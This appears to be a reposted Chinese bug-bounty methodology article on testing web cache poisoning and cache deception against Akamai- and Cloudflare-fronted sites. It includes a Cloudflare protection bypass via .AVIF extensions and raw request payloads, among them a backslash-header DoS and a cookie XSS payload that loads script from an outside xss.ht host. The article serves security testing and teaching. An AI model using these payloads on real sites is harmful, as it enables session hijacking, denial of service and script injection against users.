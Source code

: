 #  Bombon 方法论：我将如何测试Web缓存漏洞   
 船山信安   2025-02-10 01:02  
  
## 什么是Web缓存漏洞  
  
Web缓存漏洞是指由于缓存机制配置或实现不当，导致攻击者可通过操纵缓存内容获取敏感信息、篡改数据或破坏服务安全性的安全风险。常见攻击包括**缓存投毒**  
（注入恶意响应误导用户）、**缓存欺骗**  
（诱骗缓存存储私密数据）以及**未授权缓存**  
（泄露本应受限的内容）。防御需严格校验缓存内容、限制敏感数据缓存、设置合理的缓存时间，并通过Cache-Control  
等HTTP头规范缓存行为，避免攻击者利用漏洞危害系统。  
```
### 举个形象的例子 ：假设有一个电商网站，用户登录后可以看到自己的“猜你喜欢”推荐商品列表。这个页面被配置为**缓存10分钟**，但缓存键（Cache Key）设计不当，只根据URL路径（如`/recommendations`）缓存，**没有区分用户身份**。**攻击过程**：1. **攻击者登录自己的账号**，访问`/recommendations`，页面显示他的推荐商品（比如“钓鱼装备”）。2. 服务器将他的推荐页面缓存起来，缓存键是`/recommendations`。3. **普通用户Alice登录后访问同一个URL**，由于缓存存在，她直接收到攻击者的推荐页面（“钓鱼装备”），而不是自己真实的推荐（比如“化妆品”）。4. **攻击者甚至可以篡改推荐内容**（例如插入恶意链接或虚假广告），导致所有用户看到被污染的页面。
```  
## 方法论  
#### 如果应用程序没有登录功能，但使用 Akamai CDN，则我的步骤如下：  
1. 抓包发送到Repeater（send to Repeater)![image](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNSPiafBxicxLu65v4qib5jk8yD5LB4h4nnRribefWg3ASTxB1icmmly0JoAgc2vh6GR0xiaqHewj392FLQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
1. 检查服务器是否缓存正常请求（可以通过响应头“Server-Timing: cdn-cache; desc=HIT”来判断）![image](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNSPiafBxicxLu65v4qib5jk8yXlnRWyFCQXRAxbg4BE0o0pKAjuAEm2ic5icGic3Td2UOQyOo0h3lbYcicQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
1. 在请求中添加非法请求标头![image](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNSPiafBxicxLu65v4qib5jk8yibtiakNYjvK3w0ModwEHpX66icKibEXqCicrj845KwHbHucGNshEOHmW65w/640?wx_fmt=jpeg&from=appmsg "")  
  
  
1. 如果响应已成功缓存，当您在任何浏览器上打开 URL 时，您应该会收到 400 Bad Request  
  
#### 如果应用程序确实具有登录功能  
1. 创建一个用户  
  
1. 检查请求包里面有没有敏感信息，（如：会话令牌）!![image](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNSPiafBxicxLu65v4qib5jk8ykZaU83TXIjyvl3gn6eCK5DeYroDVyR6K0xkyyTRvb2iaTqlqDfQQy1Q/640?wx_fmt=jpeg&from=appmsg "")  
  
  
1. 发送到Repeater  
  
1. 在URL末尾添加可缓存的扩展名（.js，.css），看看是否给出了200 OK的响应  
  
1. 使用您的创建帐户打开修改后的URL!![image](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNSPiafBxicxLu65v4qib5jk8yQNJDNk8vrLqUKJL3a84WVE7qdPpz8ibAqZiaic1tBYNPYBouJPDliayWag/640?wx_fmt=jpeg&from=appmsg "")  
  
  
1. 使用curl或私密Private Web浏览器窗口打开相同的URL!![image](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNSPiafBxicxLu65v4qib5jk8ycHzbdvZfoWjyyD9sd2VvtcGIgReCm4okQrRiajOQiba6oF2u3DewR7MQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
1. 如果令牌成功缓存，您应该在响应中看到令牌![image](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicNSPiafBxicxLu65v4qib5jk8yWyZbhSZCKpPg2b2VbeNshd4v3vvzeKfvuqdTM3ZZ5MQibt8IX8rhicag/640?wx_fmt=jpeg&from=appmsg "")  
  
  
#### 如果应用程序正在使用Cloudflare CDN  
  
非法Header无法正常工作，现在大多数Cloudflare客户都使用  
Cache Deception Armor  
  
我能够使用.AVIF文件绕过此保护，这是一个非常未知的扩展文件。  
  
但是，有些站点没有激活此保护，您可以完美测试缓存中毒/欺骗  
#### 例子  
> **缓存欺骗到账户接管**  
→赏金 = 1,500 美元  
  
## 概括：  
  
所有 cookie（甚至是 HTTPonly cookie）均在 https://host.com/app/conversation/1.js 中公开。  
  
如果经过身份验证的用户访问此 URL，则其所有 cookie 都将存储在缓存中  
  
然后攻击者可以提取 cookie 并劫持其会话  
- 笔记：  
  
有时，如果响应是“404 Not found”，Akamai 只会将响应缓存不到 10 秒，这会使攻击者更难攻击。在这种情况下，攻击者需要快速行动，但是，如果 Akamai 检测到 200 Ok 响应，则响应将持续至少 24 小时。  
```
在某些应用程序中，如果你在扩展名前添加分号（;），它可能会给你一个 200 Ok 的响应例如/xxx/xxxxxx/;.js回复HTTP/2 200 正常
```  
> **缓存投毒导致 DoS → 赏金 = 1,000 美元**  
  
## 概括：  
  
在 Akamai CDN 中，如果我们发送反斜杠\  
作为标头，服务器将以 400Bad Request  
响应进行响应  
  
请求  
```
GET /products/xxx/xxxx/xxx/?test HTTP/2  Host: www.host.com  \:  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  Accept-Language: en-US,en;q=0.5  Accept-Encoding: gzip, deflate  Upgrade-Insecure-Requests: 1  Te: trailers
```  
  
响应  
```
HTTP/2 400 Bad RequestContent-Type: text/html;charset=iso-8859-1Content-Length: 70Cache-Control: max-age=297Expires: Thu, 21 Jul 2022 16:17:54 GMTDate: Thu, 21 Jul 2022 16:12:57 GMTServer-Timing: cdn-cache; desc=HITServer-Timing: edge; dur=32Server-Timing: origin; dur=147Strict-Transport-Security: max-age=86400Ak-Uuid: 0.bc85d817.1658419977.1592c61
```  
  
当网站使用缓存服务器时，这就会成为一个问题。网站通常只缓存 javascript、css 和其他文件，但当网站www.host.com  
还缓存正常响应时，例如  
  
www.host.com/products/*  
  
www.host.com/*  
  
等等  
  
这将会成为一个影响非常大的错误。  
```
Akamai`workaround`针对此漏洞进行了改进，使 400 响应在缓存中仅持续 5 秒，但是，攻击者可以使用 burp 中的入侵者发送空有效载荷，这样相同的 400 响应就会被永久缓存
```  
> **缓存中毒到存储型XSS → 赏金 = 1,000 美元**  
  
## 概括：  
  
n_vis  
通过Cookie 参数存在 XSS  
  
由于服务器缓存了此响应，攻击者可以保存 XSS Payload  
  
有一个强大的过滤器（和 WAF）可以阻止大多数有效负载，但由于该网站使用 Jquery，攻击者可以使用该$.getScript  
函数来利用这一点。  
  
请求  
```
GET /xxxx/xx-xx.otf?triagethiss HTTP/2  Host: www.host.com  Cookie: n_vis=xssx'*$.getScript`//593.xss.ht`//;  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  Accept-Language: en-xss,en;q=0.5  Accept-Encoding: gzip, deflate  Upgrade-Insecure-Requests: 1  Te: trailers
```  
  
响应  
```
<script>...Visitor.id='xssx'*$.getScript`//593.xss.ht`//;....</script>
```  
```
在任何请求标头、Cookie、自定义标头、X-Forwarded-* 标头上测试 XSS
```  
  
来源：https://www.freebuf.com/    感谢【EchoEverything】  
  
